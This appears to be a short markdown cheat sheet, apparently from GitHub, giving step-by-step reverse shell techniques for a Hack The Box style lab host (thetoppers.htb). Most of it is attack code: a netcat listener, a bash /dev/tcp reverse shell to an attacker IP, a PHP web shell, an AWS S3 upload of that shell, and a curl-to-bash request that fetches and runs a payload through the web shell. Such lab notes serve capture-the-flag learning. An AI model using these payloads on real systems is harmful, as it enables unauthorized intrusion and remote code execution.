 # Basic Usage

1. Use `netcat` to give access to the reverse shell:
```bash
sudo nc -lvnp 4444
```
2. Use `ifconfig` or `ip a` to determine your IP address
```bash
ip a
```
4. Create the reverse shell command using https://www.revshells.com:
````bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.15.142/443 0>&1"' 
````

# Reverse shell uploading php file

1. Investigate accessible subdomains using gobuster.
2. Check if there are any files in the subdomain's bucket (e.g., index.php).
3. Create a script (e.g., in PHP if an index.php is found) to execute commands on the page's endpoint.
````bash
<?php system($_GET["cmd"]); ?>
````
4. Add the script that allows us to send commands through the endpoint:
````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````
5. Use `ifconfig` to determine your IP address and create the reverse shell command using https://www.revshells.com:
````bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.15.142/443 0>&1"' > shell.sh
```` 
6. Open a server on our machine to connect to the reverse shell:
````bash
python3 -m http.server 8080
```` 
7. Use `netcat` to gain access to the reverse shell:
````bash
sudo nc -lvnp 443
````
8. Curl the file containing the reverse shell script on our machine using the exposed IP (in this case, tun0) and port. Create a pipe so that when the curl is performed, it enters bash. (Note: `%20` represents a space character.)
````bash
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.142:8080/shell.sh|bash
````
9. Once executed, access to the target machine should be achieved at the location where `netcat` was running.
